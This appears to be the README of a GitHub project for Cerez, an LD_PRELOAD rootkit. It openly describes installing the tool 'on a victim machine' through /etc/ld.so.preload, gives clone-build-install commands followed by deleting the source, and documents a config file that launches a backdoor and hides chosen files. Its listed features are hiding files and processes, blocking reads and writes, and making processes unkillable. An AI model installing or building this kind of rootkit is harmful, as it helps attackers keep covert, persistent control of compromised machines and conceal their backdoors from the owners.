

<h1 align="center">
    
  <br>
  Cerez 😈 A simple LD_PRELOAD rootkit
</h1>

Cerez is a configurable `LD_PRELOAD` rootkit, by installing it 
into `/etc/ld.so.preload`, you can preload it before every binary.
It can protect/hide your backdoor as well other files you want 
hidden. It does so by overwriting syscalls like `open`, `write`
and others.

## Features
- ✔ Hides files in the file system 
- ✔ Hides proceses in the process list 
- ❌ Hides connections in the network list
- ✔ Makes files unreadable 
- ✔ Makes files unwriteable 
- ✔ Makes processes unkillable 

## Install 
To install the rootkit on a victim machine:
```
git clone https://github.com/ngn13/cerez.git
cd cerez
make 
make install
cd ..
rm -rf cerez
```

## Config `(/etc/cerez.cfg)`
```
backdoor:/usr/bin/backdoor -> backdoor that will be started by the rootkit
whitelist:/usr/bin/backdoor --> rootkit won't hide/protect stuff from this 
output:1 --> if set to 1, cerez will hide any console output that contains hidden file names
/etc/cerez.cfg -> rest is just the list of the files that will be hidden
./cerez.cfg
...
```

## Resources
To learn more about LD_PRELOAD rootkits, I highly recommend you read [this
article](https://compilepeace.medium.com/memory-malware-part-0x2-writing-userland-rootkits-via-ld-preload-30121c8343d5).
I also left some comments in the [loader.c](loader.c) so you can go ahead and read it.
You can also create an issue/PR if you are interested.
